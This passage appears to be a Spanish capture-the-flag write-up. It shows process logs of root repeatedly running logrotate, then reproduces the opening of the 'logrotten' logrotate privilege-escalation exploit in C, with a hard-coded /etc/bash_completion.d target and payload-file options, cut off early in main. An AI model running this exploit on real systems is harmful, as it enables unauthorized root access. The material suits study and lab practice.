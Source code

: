 ```
2022/07/22 07:55:45 CMD: UID=0    PID=117959 | /bin/sh /root/log.sh 
2022/07/22 07:55:45 CMD: UID=0    PID=117961 | sleep 5 
2022/07/22 07:55:50 CMD: UID=0    PID=117962 | /bin/sh /root/log.sh 
2022/07/22 07:55:50 CMD: UID=0    PID=117963 | /usr/sbin/logrotate -f /root/log.cfg 
2022/07/22 07:55:50 CMD: UID=0    PID=117964 | sleep 5 
2022/07/22 07:55:55 CMD: UID=0    PID=117966 | /usr/sbin/logrotate -f /root/log.cfg 
2022/07/22 07:55:55 CMD: UID=0    PID=117965 | /bin/sh /root/log.sh 
2022/07/22 07:55:55 CMD: UID=0    PID=117967 | sleep 5 
```


Podemos ver como hay un proceso que ejecuta el root que aprovecha logrotate, es un programita para gestionar logs, existe una vulneravilidad para escalar privilegios a partir de aquí, es la siguiente. 

créditos a https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html

```c
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/inotify.h>
#include <unistd.h>
#include <string.h>
#include <alloca.h>
#include <sys/stat.h>
#include <getopt.h>


#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024 * ( EVENT_SIZE + 16 ) )

/* use TARGETDIR without "/" at the end */
#define TARGETDIR "/etc/bash_completion.d"

#define PROGNAME "logrotten"

void usage(const char* progname)
{
printf("usage: %s [OPTION...] <logfile>\n",progname);
printf("  %-3s %-22s %-30s\n","-h","--help","Print this help");
printf("  %-3s %-22s %-30s\n","-t","--targetdir <dir>","Abosulte path to the target directory");
printf("  %-3s %-22s %-30s\n","-p","--payloadfile <file>","File that contains the payload");
printf("  %-3s %-22s %-30s\n","-s","--sleep <sec>","Wait before writing the payload");
printf("  %-3s %-22s %-30s\n","-d","--debug","Print verbose debug messages");
printf("  %-3s %-22s %-30s\n","-c","--compress","Hijack compressed files instead of created logfiles");
printf("  %-3s %-22s %-30s\n","-o","--open","Use IN_OPEN instead of IN_MOVED_FROM");
}

int main(int argc, char* argv[] )
{
  int length, i = 0;
  int j = 0;
  int index = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];
  uint32_t imask = IN_MOVED_FROM;
  char *payloadfile = NULL;
  char *logfile = NULL;
  char *targetdir = NULL;
  char *logpath;
  char *logpath2;
```